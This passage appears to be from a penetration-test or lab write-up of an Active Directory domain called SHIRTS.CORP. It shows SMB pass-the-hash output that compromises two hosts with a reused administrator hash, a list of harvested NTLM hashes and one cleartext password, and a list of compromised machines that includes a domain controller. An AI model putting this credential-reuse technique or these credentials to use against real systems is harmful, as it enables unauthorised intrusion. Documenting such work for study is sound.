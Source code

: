 

and just like that we pwn the following hosts using the same admin credentials
```
SMB 10.10.6.160 445 DEVSQL01 [+] DEVSQL01\Administrator:d36b166a247b1d53fc3ec29d0ad8d689 (Pwn3d!)
SMB 10.10.8.130 445 PHLDQ36C [+] PHLDQ36C\Administrator:d36b166a247b1d53fc3ec29d0ad8d689 (Pwn3d!)
```


### Getting SHIRTS
looking at the credentials reported on initial access we find the following new sets of credentials


```
PHLDQ36C\Administrator d36b166a247b1d53fc3ec29d0ad8d689
SHIRTS\zmullen Winston96
PHLDQ36C\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
SHIRTS\zmullen 297b35e07ae0144ad409abaf29092d7a
```


### Current PWN list
```
NYC!31B
NYCWQ51D
NYCIP55A


PHLWP70A
PHLWD42C
PHLWP70A
PHLWD99B
PHLDQ36C


DEVSQL01


SALMON
SAPPHIRE


STRIPED (Domain Controller for POLO.SHIRTS.CORP)
```

